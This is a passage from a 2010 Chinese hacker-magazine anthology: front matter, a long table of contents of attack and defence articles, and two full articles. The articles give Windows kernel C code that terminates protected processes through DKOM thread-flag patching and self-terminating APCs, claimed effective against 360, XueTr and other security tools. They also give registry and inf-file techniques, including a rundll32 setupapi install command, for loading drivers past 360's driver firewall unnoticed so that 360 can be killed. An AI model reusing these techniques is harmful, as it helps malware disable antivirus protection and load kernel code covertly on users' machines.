# 黑客防线2010合订本（上）第一部分

---

## 黑客防线

## 2010合订本（上半年）

《黑客防线》编辑部 编著

- 透视黑客技术发展焦点
- 把握黑客攻防技术脉搏
- 全面收录最新流行黑客技术


## 内容简介

《黑客防线》是国内最早创刊的网络安全技术媒体之一，一直秉承“在攻与防的对立统一中寻求突破”的核心理念，关注网络安全技术的发展，并且在国内一直处于网络安全技术的前沿。从2001年创刊至今，《黑客防线》已经成为国内网络安全技术的顶尖媒体。《黑客防线2010合订本（上半年）》是《黑客防线》2010年上半年（总第109期至第114期）的合订本，将6期杂志的文章整合入“编程解析”“工具测试”“脚本攻防”“漏洞攻防”“密界追踪”“渗透与提权”“网管之家”“溢出研究”几个栏目中。文章涉及的代码，读者可到《黑客防线》的官方网站下载。

本书适合高校在校生、网络管理人员、网络安全公司从业人员、黑客技术爱好者阅读。

未经许可，不得以任何方式复制或抄袭本书之部分或全部内容。  
版权所有，侵权必究。

## 图书在版编目（CIP）数据

黑客防线：2010合订本，上半年 / 《黑客防线》编辑部编著.—北京：电子工业出版社，2010.8  
（安全技术大系）  
ISBN 978-7-121-11652-0

Ⅰ．①黑…　Ⅱ．①黑…　Ⅲ．①计算机网络—安全技术　Ⅳ．①TP393.08

中国版本图书馆CIP数据核字（2010）第162708号

责任编辑：许艳  
印刷：北京机工印刷厂  
装订：三河市鹏成印业有限公司  
出版发行：电子工业出版社  
北京市海淀区万寿路173信箱　邮编100036  
开本：900×1280　1/16　印张：39　字数：1493.4千字  
印次：2010年8月第1次印刷  
印数：4000册　定价：65.00元

凡所购买电子工业出版社图书有缺损问题，请向购买书店调换。若书店售缺，请与本社发行部联系，联系及邮购电话：（010）88254888。  
质量投诉请发邮件至zlts@phei.com.cn，盗版侵权举报请发邮件至dbqq@phei.com.cn。  
服务热线：（010）88258888。

## 前言

### 关于《黑客防线》

《黑客防线》是一本涉及网络信息安全的纯技术月刊，创刊于2001年，至今已经历时10年。10年来，《黑客防线》坚持“在攻与防的对立统一中寻求技术突破”的理念，积极倡导技术创新和突破，成为国内网络信息安全技术人员和相关专业在校学生不可缺少的技术月刊。

随着时代的发展，为了使读者更加及时、便捷地阅读这本技术月刊，从2010年7月开始，月刊采用了电子版网络传播形式，不再出版纸质版的月刊。但是考虑到广大读者在得到快捷的电子版月刊的同时，还是希望将纸质版月刊作为技术资料收藏，为了满足这一要求，我们每半年将会出版这样一本合订本。合订本将全面收录半年的文章，偶尔也会删去极少部分技术含量不足的文章，总体还是体现技术创新和突破。

### 关于《黑客防线》半年合订本的出版周期

我们一般会在每年的8月出版上半年的合订本，每年的2月出版前一年下半年的合订本。由于编、印、发涉及诸多环节，希望读者能够容忍这个延时。如果希望及时阅读其中的文章，还是建议到《黑客防线》官网订阅电子版月刊。

### 关于文章中代码的下载

由于强调纯粹技术性的研究，很多文章涉及的技术阐述需要用代码实现，本来应该收录在光盘中随书配赠。但是，目前光盘审读一般依赖杀毒软件扫描结果，对于本技术领域很多代码都会误报，而一一澄清又会拖延出版周期。所以，我们只能在《黑客防线》官网提供相关代码的下载，由此带来的不便希望得到读者的谅解。

### 关于购买合订本的途径

电子工业出版社所有的销售终端都是极好的购买途径，包括但不限于各大新华书店、科技书店、计算机书店，以及网络书城。同时《黑客防线》编辑部的淘宝店也会有便捷服务。

### 关于《黑客防线》的内容定位

《黑客防线》一直倡导技术创新和突破。这种创新和突破与网络信息安全相关，旨在强调底层编码技术研究、底层协议、系统内核、程序缺陷等方面技术对抗，反对应用级别的攻击实验性质的描述文章，真正实现底层技术层面的攻与防的对立统一，这是我们10年来一直倡导的，也是今后要坚持的方向。所以，欢迎后来者居上的新人也勇于尝试技术研究和创新，相信在这个技术领域只有创新、没有权威。欢迎大家积极投稿，投稿邮箱：du_xing_zhe@yahoo.com.cn。作者将会获得《黑客防线》技术团队头衔，并且有机会获得课题和科研项目经费资助。

### 关于感谢的话

10年间《黑客防线》的技术探索之路其实也是一条不平坦的道路。由于众所周知的原因，我们一直寻求在法律允许的范围内研究这个边缘性、交叉性学科所涉及的纯粹技术，其目的就是为本土网络信息安全建立一个技术家园，培养出稀缺门类的技术专才。在此过程中，我们始终得到了各大安全公司和相关行业的认可。特别是有的公司在录用员工时客观参考在《黑客防线》上发表的文章，还有的公司在员工技术考核中把在本刊发表的文章也列入指标，有些高校相关专业给予我们作者以奖学金或者学分奖励。这种认可，是我们首先要感谢的。还要感谢10年来坚持技术研究并且投稿支持我们，与读者分享技术成果的作者们，其实这些作者们已经成为相关行业的技术中坚力量。同时，更要感谢坚持阅读分享并且参与技术研究的广大读者，以及很多机构的图书馆、资料室，读者的需要使我们感到了工作的价值。最后，要感谢的是电子工业出版社将本书作为一个系列持续出版下去的计划，此中尽职尽责的毕宁编辑卓有成效的工作也受到我们尊敬和感谢。

《黑客防线》编辑部  
binsun20000@gmail.com

## 《黑客防线》2010合订本（上半年）

## 目录

### 编程碰撞厅

- 模拟实现NT系统通用PspTerminateProcess …… 1
- 绕过360驱动防火墙加载驱动结束360 …… 3
- 浅析手机来电防火墙的实现原理 …… 5
- SSDT及SSDT Shadow完全解析（二）…… 8
- AV对抗技术之数据编码 …… 14
- VC实现木马服务端自动更新 …… 16
- VC实现用户克隆和登录信息擦除 …… 18
- 端口转发3389数据 …… 22
- 打造Linux下无线PPPoE攻击工具 …… 24
- Linux下基于日志文件的Ext3数据恢复程序设计 …… 28
- 强制类型转换之谜 …… 32
- 添加Section全攻略补遗 …… 33
- 使用GRETA正则表达式扫描网马 …… 36
- 编程实现定制系统安装盘 …… 37
- Ring 3下阻止ARK启动 …… 40
- API Hook反屏幕截图 …… 42
- 论BIOS感染的持久化之道 …… 45
- 基于.NET框架的驱动加载模块的设计与实现 …… 55
- Windows内核bugcheck和shutdown回调的检测 …… 58
- WinIo驱动级模拟按键的实现 …… 61
- 基于进程行为的检测技术 …… 62
- 利用CPU序列号保护自己的软件 …… 63
- 江民2010 KiFastCall Entry Hook保护原理分析 …… 65
- 函数CALL地址替换实现深度钩子 …… 67
- 基于SPI的网络行为监视器 …… 70
- 浅谈枚举DPC定时器的思路 …… 73
- 新思路打造Loader程序——编写木马加载程序 …… 76
- 编写简单代理程序 …… 77
- Linux下利用调试寄存器Hook系统调用 …… 79
- Inline Hook IoCqDriver保护文件 …… 83
- 机密文件的图片隐藏法 …… 85
- 巧用ASP.NET实现验证码安全登录 …… 87
- 简单代码打造无敌内存清零和过NP内存读写 …… 89
- 利用fltmgr加载驱动绕过瑞星 …… 91
- 后门程序的“安全”之路 …… 92
- 钩子的另类用法 …… 95
- WS方法结束线程 …… 100
- 另类思路解决自动连接VPN问题 …… 102
- 浅谈Kernel EAT Hook的检测与绕过 …… 104
- 浅谈HTTP代理环境下的两种通信方式 …… 107
- 一个简单dump工具的实现 …… 109
- 支付宝转接安全应用全接触 …… 111
- 利用BHO获取当前光标信息 …… 115
- 编程解析数字证书 …… 118
- TDL3 Rootkit深入分析 …… 121
- Windows Vista/2008网络编程接口的应用及挂钩（一）…… 127
- Windows Vista/2008网络编程接口的应用及挂钩（二）…… 134
- JMP大法对抗Call Hook …… 144
- 防止直接切换CR3读写进程内存 …… 145
- 利用Hook IRP隐藏磁盘分区 …… 150
- 绕过Head Inline Hook …… 152
- 服务的编程实现 …… 155
- 清理AT命令使用痕迹 …… 157
- 无模块DLL的进程注入 …… 158
- 自己实现插APC结束线程 …… 160
- VB识别简单规则验证码 …… 165
- 验证VB破解宽带账号的两种思路 …… 167
- Ring3下模拟NtSystemDebugControl实现驱动功能 …… 172
- Ring0级Rootkit进程隐藏与检测技术 …… 177
- 利用FSD Hook IRP分发例程保护文件 …… 183
- 基于BlueZ接口开发蓝牙扫描程序 …… 185
- VC实现远程关机 …… 187
- 游戏木马面面观 …… 189
- 简单获取所有内核对象类型 …… 191
- 浅谈64位环境下的编程 …… 193
- 浅谈用户空间内存管理 …… 197
- 浅议Windows Session ID …… 199
- 图片验证码的随机实现详解 …… 202
- FSD Hook实现文件行为取证 …… 204
- 保护文件不被360文件粉碎机删除 …… 208
- 利用GINA实现U盘开机锁 …… 210
- 在WM手机上实现来电防火墙 …… 212
- 无驱动隐藏DLL …… 215
- 检测虚拟机 …… 220
- 突破UAC获取System权限 …… 222
- SSDT Hook与DKOM实现反杀 …… 223
- 基于分层的键盘监听驱动程序的编写 …… 226
- 利用LSB位信息实现隐藏与隐写 …… 237
- 远程文件捆绑器的原理与实现 …… 240
- Delphi实现邮件SMTP与POP3 …… 242
- Hook NDIS实现MAC过滤 …… 244
- 编写Nessus扫描插件 …… 247
- 禁用Copy-On-Write机制实现全局Hook …… 249
- 水刃下实现无驱动隐藏自身 …… 252
- 修改QQ群发器 …… 254
- 打造绕过XueTr的注册表项隐藏 …… 255
- 底层函数的文件防删除 …… 259
- 恢复Inline Hook结束水刃进程 …… 261
- 内核编写CMOS维护工具 …… 263
- 让句柄可写——修改正在被使用文件的方法探索 …… 266
- Ring0检测中断及KiFastCallEntry钩子 …… 268

### 网盟测试

- VBS实现通用定位autorun.inf中病毒体路径 …… 272
- 反高启发与反主动防御之路——基于源码的免杀技术（上）…… 275
- 反高启发与反主动防御之路——基于源码的免杀技术（中）…… 278
- 反高启发与反主动防御之路——基于源码的免杀技术（下）…… 280
- 一个bash door的简单分析 …… 283
- 主动防御AutoRun病毒 …… 285
- 解密Ability FTP Server用户信息数据 …… 287
- 蓝盾的调试艺术 …… 289
- 编程免杀Poison Ivy远控 …… 294
- 对国外垃圾邮件的分析 …… 296
- FTP服务器的传输模式实战剖析 …… 297
- Ajax实现网页Sniffer研究 …… 300
- U盘打造开机锁 …… 302
- 基于Linux系统WINE虚拟机技术的研究 …… 304
- 实战网页盗链攻与防 …… 307
- 基于硬件虚拟化的HIPS …… 311
- 探寻秒杀技术背后的猫腻 …… 313
- 利用配置文件生成可执行文件 …… 315
- 打造最小化PE文件 …… 317
- 利用EFS提高文件系统的安全性 …… 319

### 脚本攻防

- 动态跨站请求伪造攻击 …… 322
- 浅析跨站请求伪造 …… 325
- iframe脚本攻防完全接触 …… 327
- 绕过单引号继续注入 …… 330
- 轻松注入360保险箱保护的程序 …… 333
- 浅谈Local File Disclosure漏洞的利用 …… 335
- 由Apache server-status引发的旁注入侵 …… 337
- 一个Oracle注入点引发的检测 …… 340
- 黑客防线脚本实验室第二期基础入侵篇通关攻略 …… 343
- 揭示绕过DreamMail安全限制与邮件跨域执行双重漏洞 …… 346
- IncrediMail邮件脚本跨域执行漏洞 …… 349
- 浅析路径遍历漏洞 …… 352
- 高级命令行注入研究 …… 354

### 漏洞攻防

- Detour补丁技术攻击Windows组策略 …… 357
- FCKeditor上传漏洞与IIS6解析漏洞的利用和修补 …… 361
- .NET Framework Rootkit：Framework框架中的后门技术 …… 364
- 揭密Safari 4 Remote Crash漏洞 …… 369
- 无线网络设备攻击技术白皮书 …… 371
- Discuz! 7.1 & 7.2远程代码执行漏洞解析 …… 379
- TurboMail 4.3邮件系统XSS 0Day漏洞 …… 381
- 绕过限制的KooMail XSS 0Day漏洞 …… 383
- Rootkit技术：智能手机的攻击与启示 …… 386
- 基于智能手机设备的中间人攻击技术 …… 391
- 手机漏洞与恶意攻击 …… 395
- “IE极光”漏洞的分析与利用 …… 398
- KooMail安全警告机制绕过漏洞 …… 401
- Windows内核描述符表GDT及IDT漏洞利用 …… 403
- IE下绕过同源策略限制的方法 …… 408
- 网络合法监听的漏洞利用 …… 410
- SparkMail Mail Server用户权限越界漏洞 …… 416
- ICMPv6中异常NS消息探析 …… 420
- CmailServer远程任意文件下载漏洞 …… 423
- 不安全的搜狗浏览器ActiveX控件函数 …… 424
- Kerio MailServer远程管理访问服务器任意文件漏洞 …… 426
- 构建守护进程：FreeBSD操作系统内核栈利用 …… 429
- Java串口通信攻击技术 …… 432
- CAPTCHA攻防作战 …… 434
- 教育之忧——Edoas（教育行政办公系统）安全检测 …… 436

### 密码与流氓

- XML文档加密解密一点通 …… 445
- AntiESP定律 …… 448
- WPS——破解无线WPA/WPA2密钥的捷径 …… 450
- 极虎病毒破解分析 …… 454
- WEP加密算法的实现原理与破解 …… 463
- 一个Crackme的破解 …… 466
- 利用Shell SDK保护程序 …… 472
- xpack不能不说的秘密 …… 474
- xpack不能不说的秘密（续）…… 476
- 一个图片Crackme的简单算法分析 …… 479
- Anti-debug Crackme算法分析 …… 482
- 彻底分析盗号木马 …… 485
- Apple固件更新机制的逆向与利用 …… 487
- 文件夹病毒破解分析 …… 492
- 逆向文件捆绑程序编写思路 …… 496
- 逆向工程：打造了不起的签名 …… 498

### 渗透与提权

- 对一台Linux服务器的艰难入侵 …… 505
- 利用FCKeditor漏洞渗透Linux服务器 …… 507
- 窃取Windows访问令牌提升进程权限 …… 510
- 对Discuz!的漏洞分析 …… 513
- 巧用G6FTP Server渗透服务器 …… 516
- 对于IGENUS邮件系统的一次安全检测 …… 519
- 渗透局域网的新模式研究 …… 522
- 对母校的“友情检测” …… 525
- 社会工程学在入侵中的作用 …… 527
- 对办公内网的一次安全检测 …… 531

### 攻营之道

- 几种恶意程序搞破坏的新伎俩 …… 533
- 肉鸡还是陷阱：巧借VMWare逆向分析入侵过程 …… 535
- 数字证书原理及应用 …… 537
- Windows 7的系统安全与病毒防护 …… 540
- 二层安全的解析与防护 …… 542
- 取证调查中的BitLocker驱动级加密技术 …… 547
- Linux下LDAP统一认证的实现 …… 551
- 巧用jQuery插件进行密码安全校验 …… 557
- 应对分布式拒绝服务攻击 …… 558
- 利用日志进行MySQL数据库实时恢复 …… 563
- Biologger——生物特征记录程序 …… 565
- DNS Flood Detector让DNS更安全 …… 568
- 用djbdns为DNS保驾护航 …… 570
- 打造安全强大的网页快照 …… 573
- 安全SSL访问的实现方法详解 …… 576
- 走进安全的Java脚本世界 …… 579

- 用 VxE 保护 Linux 系统安全 …… 582  
- RPM 另类用法加固 Linux 安全 …… 585  
- 用 Stunnel 加密保护邮件服务器 …… 586  
- 解析安全电子交易协议 SET …… 588  
- 借助虚拟内存快照检测恶意 Shellcode …… 591  
- 巧用 Linux 实现局域网安全访问 …… 595  
- 强悍的完整性检查工具 Nabou …… 597  

#### 漏洞研究

- 菜鸟版 Exploit 编写指南之五十九：迅雷 5.9 任意内核地址覆盖漏洞及利用方法 …… 601  
- 菜鸟版 Exploit 编写指南之六十：Wireshark 溢出漏洞分析与利用 …… 603  
- 菜鸟版 Exploit 编写指南之六十一：阻止缓冲区溢出攻击研究 …… 605  
- 高效编写 JIT-Spray Shellcode …… 610  

前置知识：VC  
关键词：编程、PspTerminateProcess、APC

##### 模拟实现 NT 系统通用 PspTerminateProcess

文/图 胡文亮（Hovi.Delphic）[HooS-SoFT]

记得在 2008 年 10 月份的《黑客防线》上，ColdZenLeft 曾经写过一篇《再谈 PspTerminateProcess 及其简单实现》。个人觉得那个方法不是很好，因为定位代码太复杂，而且只能用于 NT 5 系统（Windows 2000/XP/2003）上，而无法在 NT 6 系统（Windows Vista、Windows Server 2008、Windows 7）上使用。我又上网查找了一下其他使用 PspTerminateProcess 或者更加底层的函数结束进程的代码，都是具有大量硬编码的，而且只能在 Windows XP 系统下使用。经过潜心研究 pif 的《进程终止内幕》，以及大量的实验，终于找到了一种简单的方法模拟 PspTerminateProcess，而且适用于整个 NT 系统，包括最新的 Windows 7.7600.16385。

我们都知道，PspTerminateProcess 实际上就是循环使用 PspTerminateThreadByPointer 来结束进程的每一个线程。而 PspTerminateThreadByPointer 的下一步使用了 KeInitializeApc 和 KeInsertQueueApc 给每个线程插入 APC，最后线程在自己的执行环境里使用 PspExitThread 自行了断。知道了这些原理，实现起来就很简单了。

```c
ULONG SYS_THREAD=0x10;
// 系统线程标志位，不是硬编码
NTSTATUS st = STATUS_UNSUCCESSFUL;
ULONG Size=0;
ULONG i=0;
PKAPC pApc=0;
if (MmIsAddressValid((PVOID)Thread) == TRUE)
{
    *(PULONG)((ULONG)Thread+EToffset)=SYS_THREAD;
    // EToffset XP=0x248;2K3=0x240;VISTA&2K8=0x260;Win7=0x280;
    pApc=ExAllocatePool(NonPagedPool,sizeof(KAPC));
    if (pApc)
    {
        KeInitializeApc(pApc, Thread, OriginalApcEnvironment,
            ApcRT, 0, 0, KernelMode, 0);
        KeInsertQueueApc(pApc, pApc, 0, 2);
        st = STATUS_SUCCESS;
    }
    return st;
}
```

首先模拟实现 PspTerminateThreadByPointer。第一步，我们要对传入的 ETHREAD 进行检查，确定此地址有效，如果地址无效的话肯定会蓝屏。确定有效之后，使用 DKOM（直接内核对象操作）的方式，把线程标志修改成系统线程（原因后面会解释），接下来初始化 APC，并安排内核 APC 例程，最后把 APC 插入到指定的线程，使线程自杀。实现的代码如下：

为什么要把线程标志修改为系统线程呢？因为我们需要使用导出的 PsTerminateSystemThread。这个东西很奇怪，不仅只能结束系统线程，而且只对当前进程线程有效，它唯一的参数就是 ExitStatus。所以我们要使用这个函数，只能欺骗我们要结束的线程是系统线程。特别地，只能在内核 APC 例程里使用，否则无效或者把自己的线程给结束了（如果执行此函数的线程是系统线程）。由于 CrossThreadFlags 偏移是硬编码，所以我们只能根据系统使用硬编码，Windows XP 的硬编码是 0x248，Windows 2003 的硬编码是 0x240，Windows Vista 和 Windows Server 2008 的硬编码是 0x260，Windows 7 的硬编码是 0x280。我以前曾经看过一段动态确定 CrossThreadFlags 代码，但是效果不好（蓝屏），所以就放弃了。至于怎样得到系统版本就不叙述了，大家自己在网上搜索即可。

值得商榷的还有插入 APC 的方式，本文使用的 KeInsertQueueApc 的第二个参数是 APC 指针，第四个参数是 2，但是这么写也可以（第二种方法）：

“KeInsertQueueApc(Apc, NULL, NULL, 0);”。

我曾经询问 syf 这两种方法的差异性，syf 说第二种方法比较好，原因有两个。一是第一种方式容易导致 APC 重入造成蓝屏；二是许多挂钩 KeInsertQueueApc 的驱动在判断函数里只判断最后一个参数是不是 2，如果不是，即使 Apc->Thread 是被保护的线程也放过（这个原因很复杂，主要因为某些 APC 是不能拒绝的，比如由文件系统发起的 APC，如果拒绝的话会导致进程出问题），第二种方式算是钻了一个空子。至于是否真的如此，大家可以修改我提供的源码试试。另外有意思的是，如果在内核 APC 例程里使用 KeTerminateThread（仅仅在 NT5 系统的 ntosxxxx.exe 里导出了这个函数，NT6 系统的 ntosxxxx.exe 里没有导出），就会使线程失去调度，而没有被结束。

```c
VOID ApcRT(PKAPC Apc, PKNORMAL_ROUTINE *NormalRoutine, PVOID *NormalContext, PVOID *SystemArgument1, PVOID *SystemArgument2)
{
    ExFreePool(Apc);
    PsTerminateSystemThread(STATUS_SUCCESS);
    // 结束自己
}
NTSTATUS PspTerminateThreadByPointer(PETHREAD Thread)
{
    ...
}
```

实现了 PspTerminateThreadByPointer 之后，就要实现 PspTerminateProcess 了。真正的 PspTerminateProcess 是通过枚举 ThreadlistHead 得到进程的所有线程并使用 PspTerminateThreadByPointer 结束之。但这样又要用到硬编码，所以我决定循环使用 PsLookupThreadByThreadId + IoThreadToProcess 得到进程的所有线程，如果是要被结束进程的线程，就使用自己的 PspTerminateThreadByPointer 结束。

```c
NTSTATUS PspTerminateProcess(PEPROCESS Process)
{
    ULONG i;
    PETHREAD txid;
    PEPROCESS txps;
    NTSTATUS st = STATUS_UNSUCCESSFUL;
    for (i=8; i<=65536; i+=4)
    {
        st = PsLookupThreadByThreadId(i, &txid);
        if (NT_SUCCESS(st))
        {
            txps = IoThreadToProcess(txid);
            if (txps == Process)
            {
                PspTerminateThreadByPointer(txid);
            }
        }
    }
    return STATUS_SUCCESS;
}
```

这里解释一下为什么线程 ID 枚举到 65536 就结束。虽说理论上线程 ID 的上限是 2^32−1，但通常情况下大家见过的线程 ID 最大还没有超过 20000，我们只考虑绝大多数的情况，不用考虑最极端的情况。有人说，如果 Rootkit 修改 TID 不就可以逃过你所谓的 PspTerminateProcess 了？且不说修改线程 ID 对线程稳定性的恶劣影响，其实如果 Rootkit 缩链要保护的线程的话，也可以逃过枚举 ThreadlistHead 得到线程的方式。任何方式都不是完美的，只要能应付大多数情况的方法就是好方法。

以上代码对付 HOOK SSDT 保护进程的杀毒软件、360 安全卫士、冰刃、RKU、XueTr，甚至任何版本的狙剑都是有效的（去年 CodeZenLeft 的那个示例杀不死狙剑 v2008-0429）。听测试者说，如果在 Ring3 得到 KeInsertQueueApc 函数的地址并传去驱动动态调用，就可对付微软的 IAT HOOK，但仍然杀不死江民 2009，原因 CodeZenLeft 也讲过，就是江民的那两个邪恶的钩子：Ke(I)InsertQueueApc。

最后讲讲注意事项，PsLookupThreadByThreadId 有可能被 HOOK，使用前注意恢复一下钩子（用硬编码恢复此函数前 5 字节就可以了，因为我觉得 PsLookupThreadByThreadId 应该无法实现 Deep Hook，而且任何 NT 系统中 PsLookupThreadByThreadId 的头五字节都是 8B、FF、55、8B、EC）。如果安装了江民杀毒软件，可能就无法使用这个函数了，因为听小华子说江民杀毒软件对 PspCidTable 的访问做了处理，此时我们就要乖乖地枚举 ThreadlistHead 来得到线程了。另外，用于判断地址是否有效的 MmIsAddressValid 也有可能被 HOOK，我们可以用以下代码自己实现 MmIsAddressValid。

```c
BOOLEAN MmIsAddressValid(PVOID VirtualAddress)
{
    BYTE PresentSign = 0x1;
    BYTE PageSizeSign = 0x80;
    BYTE PresentAndPageSizeSign = 0x81;
    ULONG PDE, PDEContext;
    ULONG PTE, PTEContext;

    // ... 根据 PDE/PTE 检查页面存在位与页大小位 ...

    return FALSE;
}
```

还有就是 DKOM 的问题。如果 Rootkit 修改了 ETHREAD 的 KernelApcDisable 和 ApcQueueable，这段代码就无效了。原因从这两个偏移的名称就可以猜得出来，都是有关拒绝 APC 插入的。

前置知识：VC  
关键词：编程、驱动、防火墙

##### 绕过 360 驱动防火墙

###### 加载驱动结束 360

文/图 鹿剑

360 推出了免费的杀毒软件“360 杀毒”，给国产杀毒软件免费开了先河，之后又和其他公司爆发了一些口水战。单独安装之后发现 360 杀毒自己没有做自我保护（安装包是 1.0.0.1070 版），起保护的主要是 360 安全卫士。由于 360 安全卫士用户非常多，所以估计现在有许多都是“360 杀毒 + 360 安全卫士”的组合。现在的 360 安全卫士带了驱动防火墙功能，加载驱动就会被拦截。

这几天找了个时间看了看怎么过 360 的驱动防火墙，因为在用户态结束 360 似乎不太可能了。看雪上传出用模拟关机结束 360 的代码，但是现在 360 已经修补了这个漏洞，所以只能在 Ring0 考虑。通过观察发现，通常在 360 安全卫士开启所有保护的情况下，没有签名的程序加载驱动时有提示，并且在没有联网情况下默认阻止加载；在联网时似乎会到服务端去验证文件是否危险。

比如说 XueTr 的驱动在断网时默认阻止，在联网时默认允许加载；如果加载驱动的是有签名的程序，默认似乎总是允许。个人觉得这种处理也有点不妥，因为大部分用户并没有太多安全意识，看到提示时一般直接点击“确定”或者“关闭”，而单击“关闭”也会执行默认操作，所以从用户这里其实也可以突破一下。

可以用 system 来调用 `net start dos` 命令尝试，在安全意识没有完全普及的情况下，这招还是有机会可以过 360 驱动防火墙的。

看到提示窗口，给人印象的第一种攻击方法似乎就是发送消息进行攻击。不过很不幸，在这一招最新版本安全卫士中，用 FindWindow(Ex) 是没办法得到 360 的窗口句柄的，用 GetWindow 可以得到几个 360 开头的窗口句柄，不过得到了也作用不大，360 做了保护（测试时使用 WM_CLOSE 消息，发现没什么用，进行消息洪水攻击时，主界面会卡死但是那个提示框却不受什么影响）。因此，消息攻击这条思路到此放弃。

之后又想到，如果让操作系统来启动我们的驱动，360 不就不会拦截了吗？于是我想到的另一个方法就是写注册表注册一个服务，将其设置为开机自动启动。我一开始以为 360 那个服务监测也是像监测开机自启动项一样，开启一个计时器去看注册表的变化，所以想到在捕获关机消息时再写注册表来注册服务，在这个短暂的时间里，用户可能看不到那个服务安装提示框。

下面就给出一段代码来实现这个工作，在拦截到关机消息时写注册表。具体的结束 360 的驱动代码稍后讨论。这个代码实现在拦截到关机信息时写注册表，其实就是在收到 WM_QUERYENDSESSION 消息时写注册表。这个消息在 Windows 向程序询问是否可以结束会话时发出。注册服务只需要在 HKLM\System\CurrentControlSet\Services 下增加一个子键，再增加几个值，分别是 Type 类型、Start 启动类型、ErrorControl 错误控制方法、ImagePath 等。

```cpp
BOOL CWriteRegDlg::OnQueryEndSession()
// 捕获关机的处理函数
{
    ...
}
```

```c
if (!CDialog::OnQueryEndSession())
    return FALSE;
HKEY Root=0;
RegCreateKeyEx(HKEY_LOCAL_MACHINE, "system\\CurrentControlSet\\services\\test", NULL, NULL, 0, KEY_WRITE|KEY_READ, NULL, &Root, NULL);
if (Root!=NULL) {
    DWORD Data1=1;
    RegSetValueEx(Root, "Start", 0, REG_DWORD, (PUCHAR)&Data1, sizeof(DWORD));
    RegSetValueEx(Root, "Type", 0, REG_DWORD, (PUCHAR)&Data1, sizeof(DWORD));
    RegSetValueEx(Root, "ErrorControl", 0, REG_DWORD, (PUCHAR)&Data1, sizeof(DWORD));
    char Name[]="TestDriver";
    RegSetValueEx(Root, "DisplayName", 0, REG_SZ, (PUCHAR)Name, sizeof(Name));
    UCHAR Buffer[]="\\??\\C:\\kernel\\p.sys";
    RegSetValueEx(Root, "ImagePath", 0, REG_EXPAND_SZ, (PUCHAR)Buffer, sizeof(Buffer));
    RegCloseKey(Root);
}
return TRUE;
```

以上代码都比较简单，写好之后测试一下，计算机重启之后我们的驱动成功加载了。并且查看 360 的服务，你会意外地发现，里面居然没有我们的服务，在 msconfig 里面也看不到，但是驱动确实是运行起来了。

根据以上的思路，我们很快想到，用 inf 文件加载 WDM 驱动或者 WDF 驱动并设置为开机自动运行也是可行的，并且极有可能许多驱动防火墙都没有限制这种操作。这两种驱动都可以在 inf 文件里指定其启动方式为自动或者计算机启动时启动，只需要写注册表就可以了，之后计算机重启后驱动就会运行。

挂钩 NtLoadDriver 或者其他函数是没有用的。故使用了 DDK 自带的那个文件过滤驱动对 360 安全卫士做测试，可以执行以下命令来安装 inf 文件：`rundll32.exe setupapi,InstallHinfSection DefaultInstall 132 .\sfilter.inf`，在 inf 文件里面将启动类型设置为计算机启动时启动。

```ini
[Sfilter.Service]
DisplayName    = %SFilterServiceName%
Description    = %SFilterServiceDesc%
ServiceBinary  = %12%\Sfilter.sys ; %windir%\system32\drivers\Sfilter.sys
ServiceType    = 2 ; SERVICE_FILE_SYSTEM_DRIVER
StartType      = 0 ; SERVICE_BOOT_START
ErrorControl   = 1 ; SERVICE_ERROR_NORMAL
LoadOrderGroup = "FSFilter Activity Monitor"
AddReg         = Sfilter.AddRegistry
```

Service 节点的内容通过上面的注释就可以理解了，这里不多说。WDF 驱动的 inf 文件里面和服务相关的节点和 WDM 基本一致，不再赘述。测试之后发现驱动果然成功运行。并且在正常情况下，360 不会显示 WDM 和 WDF 两种驱动的服务，所以这种方法还算隐蔽。

可能一些读者对 WDM 和 WDF 并不是很熟悉，黑防以前很少有文章是使用 WDM 驱动架构的，很常见的都是 NT 式，不过这两种架构也简单，有了以前 NT 驱动的基础，相信学习一周就可以写出以前的 NT 式 Rootkit 的 WDM 版本了。当然，WDM 和 WDF 都是可以满足我们 Rootkit 需要的特征的。

接下来说说在驱动里结束 360 的方法，借鉴了黑防以前许多文章里的技术，使用内存清零杀进程和插入 APC 杀进程两种方法。当然了，一些程序可能对以上的结束进程的方法都做了防御，我主要关注的是 360，结束 360 以上代码还是够了，所以没去想其他方法。

如果某个程序在以上方面都做了防御，我们还是可以通过恢复一些钩子等方法来结束进程的。到了 Ring0，相信只要肯动脑筋，肯定有办法突破进程保护的。这段代码给用户态提供一个符号链接，用户态可以输入进程 pid 来结束进程，而不是在驱动完成遍历后结束全过程。

```c
NTSTATUS KillProcessByAPC(PDEVICE_OBJECT pDeviceObject, PIRP pIrp)
{
    NTSTATUS Status=STATUS_SUCCESS;
    ULONG Pid=*(DWORD*)pIrp->AssociatedIrp.SystemBuffer;
    Pid=Pid-5; // pid 是异或加密传进来的
    KdPrint(("Process id Come From ring3 :%d",Pid));
    PEPROCESS eproc={0};
    Status=PsLookupProcessByProcessId((HANDLE)Pid,&eproc);
    if(!NT_SUCCESS(Status)) goto End;
    PETHREAD ethread=NULL;
    __try{
        for(ethread=PsGetNextProcessThread(eproc,NULL);ethread!=NULL;ethread=PsGetNextProcessThread(eproc,ethread)){
            Status=MyTerminateThread(ethread);
        }
    }__except(EXCEPTION_EXECUTE_HANDLER){
        KdPrint(("Catch a exception !\n"));
        long st=GetExceptionCode();
        KdPrint(("st is 0x%08X\n",st));
    }
End:
    pIrp->IoStatus.Status=Status;
    pIrp->IoStatus.Information=0;
    IoCompleteRequest(pIrp,IO_NO_INCREMENT);
    return Status;
}
```

PsGetNextProcessThread 是一个山寨版的函数，主要功能是遍历进程 EPROCESS 里面的 ThreadListHead 成员，获取所有线程，就是一个简单的双向链表的遍历问题，遍历之后给每一个线程插入自杀 APC。这里使用到的几个函数具体内容可以看附件里的完整代码。

前面曾经说过，估计许多驱动防火墙都没拦截 WDM 的 inf 方式的驱动加载，所以趁手边有一个江民 2010 的安装包，就用张帆所著的《Windows 驱动编程详解》上的 hellowdm 测试了一下，果然江民没有拦截 inf 文件的安装，看来说还是一个通病啊。由于时间问题，没有进行大量测试，大家可以再试试其他的驱动防火墙。

墙的拦截情况。

最后说说防御这种方法加载驱动的简单思路，我上面给出的加载驱动的方法以及使用 inf 文件加载驱动的方法都是要写注册表的，所以最简单的解决措施就是挂钩注册表操作的相关内核函数，发现有写服务项的情况就提示用户，可以设置为默认阻止，这样在和 Ring3 取得联系失败的情况下也不会增加注册表项。当然可能还有更好的方法防御 WDM 和 WDF 架构的驱动加载方法，欢迎大家一起来共同探讨。最后给希望学习 WDF 驱动的读者推荐一个资料《Developing Drivers with the Microsoft Windows Driver Foundation》，这是目前除了 WDK 文档外最权威的 WDF 驱动开发书籍了。

